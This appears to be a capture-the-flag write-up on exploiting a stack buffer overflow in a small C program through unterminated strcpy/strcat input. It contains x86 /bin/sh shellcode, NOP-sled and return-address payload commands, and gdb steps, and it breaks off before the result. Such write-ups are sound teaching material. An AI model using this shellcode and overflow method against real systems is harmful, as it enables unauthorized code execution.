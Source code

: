 Bonus time ! 

Ok so we have a function main, a p function and a pp function.

In terms of vulnerable functions we have a strcpy and strcat

There is no system calls so we'll bring our shellcode

First let's bring our pattern generator, and after two reads we get a crash with offset of 9, so we can take the wheel and go wherever we want

That being said, a 10 long code does not crash

The pp call contains two p calls, each reading an input, replacing the \n ending the string with a \0a and copying the first 20 bytes into a 20 long buffer. So far all good.

But then there a strcpy call that copies the first of these two 20 bytes long buffer into our main buffer, 54 long.
Then repalce the \0 by a space and strcat the second buffer into our first.

Our exploit will lie in the fact that the strchr in p expects to find a \n to turn into a \0 to terminate the string and make sure the subsequent strcpy, strchr and strcat work properly.

But if there is no \n everyting goes bad.

At this point, the first 20 buffer will be filled with a non terminated string and the second one with whatever.

Calling strcpy on this will then take the first and second buffer since it won't know the first ending point, this is our entrypoint, we will be able to change the return address this way

We will attempt to store our shellcode into the big buffer on the first read, and on the second read we'll point towards it


First arg with a bunch of filler and the shellcode
python -c 'print ("\x90" * 1000 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")' > /tmp/1

Second arg with enough filler to overflow and the address of our buffer

Big buffer is at 0xbfffe680

We know the offset is at 9 so :
AAAAAAAAABBBB 
but it does not crash, weird

```gdb
abcdefghijklmnopqrstuvwxyz
AAAAAAAAABBBBAAAAAAAabcdefghijklmnopqrst��� abcdefghijklmnopqrst���

Program received signal SIGSEGV, Segmentation fault.
0x6d6c6b6a in ?? ()
```

Ok so it appears it needs stuff afterwards, no problem


abcdefghi jklm nopqrstuvwxyz

Our address must be put in this range

0xbf ff e6 80
python -c 'print("A" * 9 + "\x80\xe6\xff\xbf" + "B" * 13)'

the gdb command will be :

r < <(cat /tmp/1 ; sleep 1; cat /tmp/2)
crashes us in 0xbfffe69a, we must go further to avoid the second read messing up our first


python -c 'print("A" * 9 + "\xff\xe6\xff\xbf" + "B" * 13)' > /tmp/2
r < <(cat /tmp/1 ; sleep 1; cat /tmp/2 -)
To see where we can crash with the second string
abcdefghi jklm nopqrstuv